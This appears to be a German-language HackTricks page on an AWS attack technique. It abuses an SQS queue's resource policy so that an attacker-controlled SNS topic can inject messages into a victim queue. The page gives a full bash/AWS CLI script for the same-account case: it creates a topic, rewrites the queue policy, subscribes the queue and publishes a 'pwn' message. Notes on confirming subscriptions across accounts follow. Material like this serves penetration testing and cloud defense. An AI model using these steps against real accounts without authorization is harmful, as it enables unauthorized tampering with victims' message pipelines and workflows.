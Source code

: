 # AWS – SQS Cross-/Same-Account Injection via SNS Subscription + Queue Policy

{{#include ../../../../banners/hacktricks-training.md}}

## Beschreibung

Missbrauch einer SQS-Queue-Resource-Policy, um einem vom Angreifer kontrollierten SNS-Topic zu erlauben, Nachrichten in eine Opfer-SQS-Queue zu veröffentlichen. Im selben Account bestätigt sich eine SQS-Subscription zu einem SNS-Topic automatisch; bei kontoübergreifenden Szenarien müssen Sie das SubscriptionConfirmation-Token aus der Queue lesen und ConfirmSubscription aufrufen. Dadurch wird eine unaufgeforderte Nachrichteninjektion ermöglicht, der nachgelagerte Konsumenten möglicherweise implizit vertrauen.

### Anforderungen
- Möglichkeit, die Resource-Policy der Ziel-SQS-Queue zu ändern: `sqs:SetQueueAttributes` on the victim queue.
- Möglichkeit, ein unter Angreiferkontrolle stehendes SNS-Topic zu erstellen/veröffentlichen: `sns:CreateTopic`, `sns:Publish`, and `sns:Subscribe` on the attacker account/topic.
- Nur kontoübergreifend: temporäre `sqs:ReceiveMessage` auf der Opfer-Queue, um das Bestätigungstoken zu lesen und `sns:ConfirmSubscription` aufzurufen.

### Ausnutzung im selben Account
```bash
REGION=us-east-1
# 1) Create victim queue and capture URL/ARN
Q_URL=$(aws sqs create-queue --queue-name ht-victim-q --region $REGION --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Create attacker SNS topic
TOPIC_ARN=$(aws sns create-topic --name ht-attacker-topic --region $REGION --query TopicArn --output text)

# 3) Allow that SNS topic to publish to the queue (queue resource policy)
cat > /tmp/ht-sqs-sns-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSTopicPublish","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"SQS:SendMessage","Resource":"REPLACE_QUEUE_ARN","Condition":{"StringEquals":{"aws:SourceArn":"REPLACE_TOPIC_ARN"}}}]}
JSON
sed -i.bak "s#REPLACE_QUEUE_ARN#$Q_ARN#g; s#REPLACE_TOPIC_ARN#$TOPIC_ARN#g" /tmp/ht-sqs-sns-policy.json
# Provide the attribute as a JSON map so quoting works reliably
cat > /tmp/ht-attrs.json <<JSON
{
"Policy": "REPLACE_POLICY_JSON"
}
JSON
# Embed the policy file contents as a JSON string
POL_ESC=$(jq -Rs . /tmp/ht-sqs-sns-policy.json)
sed -i.bak "s#\"REPLACE_POLICY_JSON\"#$POL_ESC#g" /tmp/ht-attrs.json
aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes file:///tmp/ht-attrs.json

# 4) Subscribe the queue to the topic (auto-confirms same-account)
aws sns subscribe --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --region $REGION

# 5) Publish and verify injection
aws sns publish --topic-arn "$TOPIC_ARN" --message {pwn:sns->sqs} --region $REGION
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 10 --attribute-names All --message-attribute-names All
```
### Cross-Account-Hinweise
- Die obenstehende Queue-Policy muss das fremde `TOPIC_ARN` (Angreifer-Konto) erlauben.
- Subscriptions werden nicht automatisch bestätigt. Gewähre dir temporär `sqs:ReceiveMessage` auf der Opfer-Queue, um die `SubscriptionConfirmation` Nachricht zu lesen und rufe dann `sns confirm-subscription` mit dem `Token` auf.

### Auswirkungen
**Mögliche Auswirkungen**: Kontinuierliche unerwünschte Nachrichteninjektion in eine vertrauenswürdige SQS-Queue über SNS, was unbeabsichtigte Verarbeitung, Datenverschmutzung oder Missbrauch von Workflows auslösen kann.

{{#include ../../../../banners/hacktricks-training.md}}
